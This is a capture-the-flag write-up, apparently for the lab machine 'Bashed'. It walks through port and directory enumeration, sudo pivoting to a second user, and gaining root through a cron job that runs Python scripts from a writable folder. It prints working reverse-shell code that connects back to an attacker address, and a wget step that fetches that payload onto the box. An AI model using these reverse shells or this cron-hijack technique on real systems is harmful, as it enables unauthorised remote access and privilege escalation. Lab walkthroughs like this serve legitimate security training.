

Box: Linux
Level: Easy
### Index
1. [Box Info](#Box%20Info)
2. [Nmap Enum](#Nmap%20Enum)
3. [Web Enum](#Web%20Enum)
	1. [`Reverse Shell using Python`](#`Reverse%20Shell%20using%20Python`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`LinEnum and LinPEAS Findings for www-data user`](#`LinEnum%20and%20LinPEAS%20Findings%20for%20www-data%20user`)
	2. [`Switching Shell as scriptmanager user from www-data using sudo`](#`Switching%20Shell%20as%20scriptmanager%20user%20from%20www-data%20using%20sudo`)
	3. [`Pspy - Monitor Linux Process for each user without privileges`](#`Pspy%20-%20Monitor%20Linux%20Process%20for%20each%20user%20without%20privileges`)
	4. [`Grab the Root Flag`](#`Grab%20the%20Root%20Flag`)

### Box Info
```
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
```
### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn bashed.htb                                                                                             
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only one Port is open.
### Web Enum
```
# gobuster dir -u http://bashed.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
```

Visiting `http://bashed.htb/php/` and notice `sendMail.php` file is present but it doesn't do anything. Just a blank page in the HTTP response.

Visiting /dev, we found two files that is basically reverse shell.


###### `Reverse Shell using Python`
Using the following `python` command 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Privilege Escalation

I assigned the Execute permission using `chmod`
###### `LinEnum and LinPEAS Findings for www-data user`
```
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017

[+] We can sudo without supplying a password
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
    
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════ 
[Snipped]
www-data  15666  0.0  0.0   4508   708 ?        S    13:39   0:00  |   _ sh -c uname -a; w; id; /bin/sh -i
www-data  15670  0.0  0.0   4508   752 ?        S    13:39   0:00  |       _ /bin/sh -i
www-data  15672  0.0  0.6  32168  6816 ?        S    13:39   0:00  |           _ python -c import pty;pty.spawn("/bin/bash")
www-data  15673  0.0  0.3  18220  3364 pts/2    Ss   13:39   0:00  |               _ /bin/bash
root      31680  0.0  0.3  49792  3544 pts/2    S    13:58   0:00  |                   _ sudo -u scriptmanager bash -i
scriptm+  31681  0.0  0.4  19272  4304 pts/2    S+   13:58   0:00  |                       _ bash -i

```

Looking at the processes, and `sudo` results above, i notice that I can swap my `www-data` shell into `scriptmanager`
###### `Switching Shell as scriptmanager user from www-data using sudo`
```
www-data@bashed:/tmp$ whoami
www-data
www-data@bashed:/tmp$ sudo -u scriptmanager bash -i
scriptmanager@bashed:/tmp$ whoami
scriptmanager
```
 
 Now I will run the `LinPEAS.sh` again here
```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                        
  Group scriptmanager:                                                                                                                                   
/scripts 

```

Upon digging into `/script` directory we found that there are two files. `test.py` and `test.txt`

```
# scriptmanager@bashed:/scripts$ ls
reverse_shell.py  test.py  test.txt

# scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

###### `Pspy - Monitor Linux Process for each user without privileges`
[PSpy](https://github.com/DominicBreuker/pspy) allow you to monitor Linux Processes run by each user. This is something I don't have in `LinPEAS.sh` or `LinEnum.sh`. Also, If you take a look at `Cron Jobs` using LinEnum.sh or LinPEAS.sh, it doesn't say anything there as well. So I ran this and found that there's another Cron job that run every 2 minutes. Look at the results below

```
scriptmanager@bashed:/tmp$ ./pspy64
2024/09/26 19:31:01 CMD: UID=0     PID=83124  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:31:01 CMD: UID=0     PID=83125  | python reverse_shell.py 
2024/09/26 19:31:08 CMD: UID=0     PID=83126  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:32:01 CMD: UID=0     PID=83127  | /usr/sbin/CRON -f 
2024/09/26 19:32:01 CMD: UID=0     PID=83128  | /usr/sbin/CRON -f 
2024/09/26 19:32:01 CMD: UID=0     PID=83129  | python reverse_shell.py 
2024/09/26 19:32:07 CMD: UID=1001  PID=83130  | wget http://10.10.14.8/test1.py 
2024/09/26 19:32:09 CMD: UID=0     PID=83131  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:33:01 CMD: UID=0     PID=83132  | /usr/sbin/CRON -f 
2024/09/26 19:33:01 CMD: UID=0     PID=83133  | /usr/sbin/CRON -f 
2024/09/26 19:33:01 CMD: UID=0     PID=83134  | python reverse_shell.py 
2024/09/26 19:33:09 CMD: UID=0     PID=83135  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:33:16 CMD: UID=1001  PID=83136  | wget http://10.10.14.8/test1.py 
2024/09/26 19:34:01 CMD: UID=0     PID=83137  | /usr/sbin/CRON -f 
2024/09/26 19:34:01 CMD: UID=0     PID=83138  | /usr/sbin/CRON -f 
2024/09/26 19:34:01 CMD: UID=0     PID=83139  | python reverse_shell.py 
2024/09/26 19:34:09 CMD: UID=0     PID=83140  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:34:36 CMD: UID=???   PID=83141  | ???
2024/09/26 19:34:41 CMD: UID=???   PID=83142  | ???

```

`UID=0` is a root user running all the `*.py` files from the `/scripts` directory every 2 minutes.

Which means we can prepare a python shell using the following code and put it in the `/scripts` folder and wait for the root shell
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/bashed.htb]
└─# cat test1.py                                
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.8",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```
scriptmanager@bashed:/scripts$ wget http://10.10.14.8/test1.py
wget http://10.10.14.8/test1.py
--2024-09-26 19:35:04--  http://10.10.14.8/test1.py
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 212 [text/x-python]
Saving to: 'test1.py'

test1.py            100%[===================>]     212  --.-KB/s    in 0.001s  

2024-09-26 19:35:04 (263 KB/s) - 'test1.py' saved [212/212]
```

###### `Grab the Root Flag`
Starting the netcat listener on port `1337`.
```
# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.68] 44542
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Get your root flag